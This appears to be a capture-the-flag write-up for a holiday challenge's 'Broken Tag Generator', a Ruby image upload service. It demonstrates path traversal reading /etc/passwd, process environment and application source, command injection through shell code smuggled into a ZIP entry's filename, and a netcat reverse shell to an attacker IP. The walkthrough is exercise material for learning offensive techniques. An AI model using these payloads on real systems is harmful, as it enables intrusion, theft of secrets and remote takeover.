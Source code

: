 # Objective 8: Broken Tag Generator

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ sleep 5
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a file for executing a reverse shell named `t.jpg`:
```
nc <your IP address> 4444 -e /bin/bash
```
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with a shell command:
```
printf "@ joergen.jpg\n@=\';nc <your IP address>.211.52.129 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip

```

Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.

```
touch joergen.jpg
zip joergen.zip joergen.jpg
printf "@ joergen.jpg\n@=\';nc 93.211.52.129 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTk2NTY5MDk3MiwtODIzMDUwODYxLDEyOT
M3MjA0MzksMTM5NTc5NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3
NDExLC01NzY2MTAwNzUsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMz
k4NDkxNDYxLDExNTE1NTY4OTYsMjM4NDYwMjcyLDE5MzMzNjE3
ODcsLTE0Njc2MTUyNjIsLTI0Mzk0Mjg2NiwxMzEyMDU2NDUzLD
kyMDQ1NTg2NSwtMTYwNjA3ODA0MF19
-->